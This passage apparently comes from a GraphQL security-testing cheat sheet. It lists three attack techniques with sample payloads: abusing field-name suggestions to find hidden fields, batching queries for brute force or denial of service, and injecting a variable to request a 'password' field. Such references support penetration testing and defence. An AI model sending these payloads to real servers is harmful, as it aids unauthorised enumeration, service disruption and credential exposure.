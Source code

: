 
### 23. Field Suggestion Leak (Intelligent Error Abuse)

**Explanation:**
GraphQL error messages often suggest correct field names. This helps with brute-forcing hidden fields.

**Payload:**

```json
{
  "query": "query { usre(id: 1) { id } }" // 'usre' instead of 'user'
}
```

---

### 24. Batch Queries (Overhead Abuse)

**Explanation:**
Some GraphQL servers accept multiple queries in a single request (batching). That can be abused for DoS or brute-force.

**Payload:**

```json
[
  { "query": "{ user(id: 1) { id } }" },
  { "query": "{ user(id: 2) { id } }" },
  { "query": "{ user(id: 3) { id } }" },
  { "query": "{ user(id: 4) { id } }" }
]
```

---

### 25. GraphQL Injection

**Explanation:**
Injecting dynamic fields into a query string. Dangerous if GraphQL is implemented insecurely on the backend.

**Payload:**

```json
{
  "query": "query getUser($field: String!) { user { $field } }",
  "variables": {
    "field": "password"
  }
}
```

> Should be blocked. GraphQL shouldn't allow variable interpolation inside query structure.

---
